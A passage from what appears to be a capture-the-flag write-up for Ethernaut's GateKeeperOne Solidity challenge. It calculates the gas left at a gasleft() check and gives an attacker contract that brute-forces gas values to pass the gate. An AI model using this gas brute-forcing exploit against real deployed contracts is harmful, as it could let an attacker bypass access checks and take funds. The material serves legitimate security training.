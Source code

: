 Step here and there to locate the `GAS` opcode which corresponds to `gasleft` call. Proceed just one step more (to `PUSH2` here) and note the "remaining gas" from **Step Detail** just below. In my case it's `89746`. Hence gas used up to that point:

```
gasUsed = _gas - remaining_gas
or, gasUsed = 90000 - 89746
or, gasUsed = 254
```

Now, we have `gasUsed` and we want set a `_gas` such that `gasLeft` returns a multiple of 8191. One such value would be:

```
_gas = (8191 * 8) + gasUsed
or, _gas = (8191 * 8) + 254
or, _gas = 65782
```
(Note that I randomly chose `8` to multiply to 8191, you can choose any as log as sufficient gas is provided for transaction)

So `_gas` should probably be `65782` to pass the check. But, the target `GateKeeperOne` contract (Ethernaut's instance) on Rinkeby network must've had a little bit of different compile time options. So correct `_gas` is not necessarily `65782`, but a close one. Let's pick a reasonable margin around `65782` and call `enter` for all values around `65782` with that margin. A margin of `64` worked for me. Let's update `GatePassOne`:

```solidity
contract GatePassOne {
    event Entered(bool success);

    function enterGate(address _gateAddr, uint256 _gas) public returns (bool) {
        bytes8 key = bytes8(uint64(tx.origin));
        
        bool succeeded = false;

        for (uint i = _gas - 64; i < _gas + 64; i++) {
          (bool success, ) = address(_gateAddr).call.gas(i)(abi.encodeWithSignature("enter(bytes8)", key));
          if (success) {
            succeeded = success;
            break;
          }
        }

        emit Entered(succeeded);

        return succeeded;
    }
}
```

Calling `enterGate` with `GateKeeper` address and `65782`, params should now clear `gateTwo`.

### gateThree

